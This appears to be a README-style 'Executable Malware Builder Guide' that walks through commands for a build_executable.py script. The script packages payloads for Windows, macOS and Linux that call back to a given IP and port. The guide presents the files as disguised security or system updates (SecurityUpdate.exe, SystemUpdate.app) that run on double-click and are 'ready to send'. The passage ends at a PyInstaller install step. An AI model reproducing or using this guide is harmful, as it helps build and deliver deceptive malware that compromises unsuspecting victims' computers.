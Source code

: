 # Executable Malware Builder Guide

## 🎯 Overview

This guide shows you how to create **standalone executable files** (.exe, .app, binary) that:

- ✅ Run automatically when opened (double-click)
- ✅ Don't require Python installation on target
- ✅ Look like normal applications
- ✅ Can have custom icons
- ✅ Work on Windows, macOS, and Linux

---

## 🚀 Quick Start

### 1. Build Windows Executable (.exe)

```bash
cd exploitation
python3 build_executable.py 192.168.1.100 5555 windows
```

**Output**: `payloads/SecurityUpdate.exe` (ready to send!)

### 2. Build macOS Application (.app)

```bash
python3 build_executable.py 192.168.1.100 5555 macos
```

**Output**: `payloads/SystemUpdate.app` (compress to .zip before sending)

### 3. Build Linux Binary

```bash
python3 build_executable.py 192.168.1.100 5555 linux
```

**Output**: `payloads/system-update` (executable binary)

### 4. Build All Platforms

```bash
python3 build_executable.py 192.168.1.100 5555 all
```

**Output**: All three formats in `payloads/` folder

---

## 📋 Detailed Instructions

### Step 1: Install PyInstaller
